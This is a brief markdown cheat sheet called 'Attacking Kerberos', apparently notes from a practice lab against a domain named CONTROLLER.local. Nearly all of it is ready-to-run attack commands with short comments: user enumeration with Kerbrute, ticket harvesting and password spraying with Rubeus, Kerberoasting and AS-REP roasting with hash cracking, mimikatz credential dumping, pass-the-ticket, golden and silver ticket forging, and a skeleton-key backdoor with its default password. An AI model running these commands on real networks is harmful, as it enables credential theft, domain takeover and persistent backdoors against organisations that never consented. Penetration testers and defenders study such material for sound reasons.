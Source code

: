 # Attacking Kerberos

> Shahrukh Tramboo | January 6th, 2022

--------------------------------------

## Kerberute

This does not require the local account access

https://github.com/ropnop/kerbrute/releases

**Enumerating Users with Kerbrute**


```bash
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

## Rebeus 

**Harvesting tockets with Rebeus**

```bash
Rubeus.exe harvest /interval:30
```

**Brute-Forcing / Password-Spraying with Rubeus**

Add the IP and domain name to the hosts file from the machine,and then "spray" it against all found users then give the .kirbi TGT for that user.
```bash
echo MACHINE_IP CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
Rubeus.exe brute /password:Password1 /noticket
```

**Kerberoasting with Rubeus**

Dump Kerberos hash of any kerberoastable users
```bash
Rubeus.exe kerberoast
hashcat -m 13100 -a 0 hash.txt Pass.txt
```

**Kerberoasting with Impacket**

```bash
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip MACHINE_IP -request
```

**AS-REP Roasting with Rubeus**

This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.
```bash
Rubeus.exe asreproast
```

Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.


**Pass the Ticket with mimikatz**

To check the privileges, ensure this outputs [output '20' OK]
```bash
privilege::debug
```

Export all of the .kirbi tickets into the directory that you are currently in
```bash
sekurlsa::tickets /export
```

Now pass the ticket with mimikatz
```bash
kerberos::ptt <ticket>
```

Then klist, to verify that we successfully impersonated the ticket by listing our cached tickets.
```bash
klist
```

**Golden/Silver Ticket Attack with mimikatz**

Dump the hash as well as security identifier needed to create a Golden Ticket.
To create a silver ticket you need to change the /name: to dump the hash pf either a domain admin account or  a service account suck as the SQLService account.
```bash
lsadump::lsa /inject /name:krbtgt
```
Now, Create a Golden/Silver Ticket

This is the command for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.
```bash
kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:500
```

Use the Golden/Silver Ticket to access other machines

This will open a new elevated command prompt with the given ticket in mimikatz
```bash
misc::cmd
```

**Kerberos backdoors with mimikatz**

The Kerberos backdoor works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps. A skeleton key only works using Kerberos RC4 encryption. 

The default hash for a mimikatz skeleton key is 60BA4FCADC466C7A033C178194C03DF6 which makes the password -"mimikatz"

This will create a skeleton key
```bash
misc::skeleton
```




